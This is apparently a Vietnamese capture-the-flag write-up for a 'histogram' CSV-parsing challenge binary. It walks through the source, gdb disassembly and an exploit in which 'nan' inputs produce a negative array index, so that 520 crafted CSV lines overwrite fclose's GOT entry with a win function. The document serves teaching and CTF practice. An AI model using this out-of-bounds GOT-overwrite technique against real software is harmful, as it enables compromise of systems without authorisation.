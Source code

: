# Phân tích file

- Bài này tác giả cho source như sau.
- Main
    
    ```c
    int main(int argc, char **argv) {
      if (argc < 2)
        fatal("No input file");
    
      /* Open CSV */
      FILE *fp = fopen(argv[1], "r");
      if (fp == NULL)
        fatal("Cannot open the file");
    
      /* Read data from the file */
      int n = 0;
      while (read_data(fp) == 0)
        if (++n > SHRT_MAX)
          fatal("Too many input");
    
      /* Show result */
      printf("{\"status\":\"success\",\"result\":{\"wsum\":");
      json_print_array(wsum, WSIZE);
      printf(",\"hsum\":");
      json_print_array(hsum, HSIZE);
      printf(",\"map\":[");
      for (short i = 0; i < WSIZE; i++) {
        json_print_array(map[i], HSIZE);
        if (i != WSIZE-1) putchar(',');
      }
      printf("]}}");
    
      fclose(fp);
      return 0;
    }
    ```
    
- Read_data
    
    ```c
    int read_data(FILE *fp) {
      /* Read data */
      double weight, height;
      int n = fscanf(fp, "%lf,%lf", &weight, &height);
      if (n == -1)
        return 1; /* End of data */
      else if (n != 2)
        fatal("Invalid input");
    
      /* Validate input */
      if (weight < 1.0 || weight >= WEIGHT_MAX)
        fatal("Invalid weight");
      if (height < 1.0 || height >= HEIGHT_MAX)
        fatal("Invalid height");
    
      /* Store to map */
      short i, j;
      i = (short)ceil(weight / WEIGHT_STRIDE) - 1;
      j = (short)ceil(height / HEIGHT_STRIDE) - 1;
      
      map[i][j]++;
      wsum[i]++;
      hsum[j]++;
    
      return 0;
    }
    ```
    
    - Sau khi debug bằng gdb thì mình thấy đoạn tính toán nó sẽ như sau:
        
        ```c
        0x00000000004013f8 <+266>:   movsxd rdi,ecx
           0x00000000004013fb <+269>:   movsxd rsi,edx
           0x00000000004013fe <+272>:   mov    rax,rsi
           0x0000000000401401 <+275>:   shl    rax,0x4
           0x0000000000401405 <+279>:   sub    rax,rsi
           0x0000000000401408 <+282>:   add    rax,rax
           0x000000000040140b <+285>:   add    rax,rdi
           0x000000000040140e <+288>:   lea    rsi,[rax*4+0x0]
           0x0000000000401416 <+296>:   lea    rax,[rip+0x2c83]        # 0x4040a0 <map>
           0x000000000040141d <+303>:   mov    eax,DWORD PTR [rsi+rax*1]
           0x0000000000401420 <+306>:   lea    esi,[rax+0x1]
        ```
        
        - Đoạn này nó sẽ lấy phần tử thứ 1 của mình dịch trái đi 4 lần.
        - Rồi nhân 4 và trừ cho chính nó(phần tử thứ 1)
        - Sau đó cộng với nó(kết quả bước trên)
        - Tiếp đến là cộng với phần tử thứ 2 của mình.
        - Lấy kết quả nhân 4 rồi cộng với 0x4040a0(map) rồi sau đó tăng kết quả lên 1.

# Exploit.

- Mục tiêu của mình bài này là overwrite fclose_got thành địa chỉ của hàm win (0x401268).
- Ta thấy địa chỉ của map(0x4040a0) lớn hơn địa chỉ của fclose_got(0x404030) nên ta cần phải cho phần tử thứ 1 là số âm để sau khi thực hiện bước cuối thì địa chỉ của rsi+rax*1 là địa chỉ của fclose_got.
- Sau khi tìm hiểu thì thấy nếu ta truyền nan (not a number) vào phần tử đầu tiên thì chương trình sẽ xem đó là -1 ⇒ ta có thể thực hiện theo cách trên.
- Sau khi tính toán mình sẽ dùng phần tử thứ 2 bằng 2, thì kết quả tính toán sẽ như sau:
    
    ```c
    -1 << 4 = -16
    -16 - -1 = -15
    -15 + -15 = -30
    -30 + 2= -28
    -28*4 = -112
    0x4040a0(map) - 112 = fclose_got
    pwndbg> p/x 0x4040a0-112
    $6 = 0x404030
    ```
    
    - Lúc này nó sẽ tăng fclose_got lên 1 đến khi đọc hết file.
- Khoảng cách từ fclose_got đến win là:
    
    ```c
    pwndbg> p/d 0x401268-0x401060
    $9 = 520
    ```
    
- Vậy ta chỉ cần tạo 520 dòng "nan,22.2" sẽ overwrite fclose_got thành win và khi gọi fclsoe sẽ nhảy để win và cho ta flag.

```c
► 0x40169e <main+332>              call   fclose@plt <fclose@plt>
        stream: 0x4062a0 ◂— 0xfbad2498
[0x404030] fclose@GLIBC_2.2.5 -> 0x401268 (win) ◂— endbr64
```

- Flag.

```c
{"status":"success","result":{"wsum":[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],"hsum":[0,0,520,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],"map":[[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,520]]}}DUMMY{The flag exists in the working directory of histogram.bin}
dinhvu@LAPTOP-63U3K24D:/mnt/c/Users/ADMIN/Desktop/ctf/asia/histogram$ cat flag.txt
DUMMY{The flag exists in the working directory of histogram.bin}
```
